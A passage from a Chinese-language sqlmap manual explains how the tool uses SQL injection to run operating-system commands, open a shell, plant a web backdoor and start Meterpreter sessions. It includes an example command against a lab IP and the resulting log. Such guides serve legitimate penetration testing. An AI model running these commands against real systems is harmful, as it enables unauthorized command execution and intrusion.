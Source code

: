 ### 运行任意操作系统命令

参数：--os-cmd,--os-shell

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。

在MySQL、PostgreSQL，sqlmap上传一个二进制库，包含用户自定义的函数，sys_exec()和sys_eval()。

那么他创建的这两个函数可以执行系统命令。在Microsoft SQL Server，sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。

列举一个PostgreSQL的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
--os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(postgres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file system can 
only be deleted manually
```

用--os-shell参数也可以模拟一个真实的shell，可以输入你想执行的命令。

当不能执行多语句的时候（比如php或者asp的后端数据库为MySQL时），仍然可能使用INTO OUTFILE写进可写目录，来创建一个web后门。支持的语言：

```
1、ASP
2、ASP.NET
3、JSP
4、PHP
```

### Meterpreter配合使用

参数：--os-pwn,--os-smbrelay,--os-bof,--priv-esc,--msf-path,--tmp-path

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数，可以在数据库与攻击者直接建立TCP连接，这个连接可以是一个交互式命令行的Meterpreter会话，sqlmap根据Metasploit生成shellcode，并有四种方式执行它：
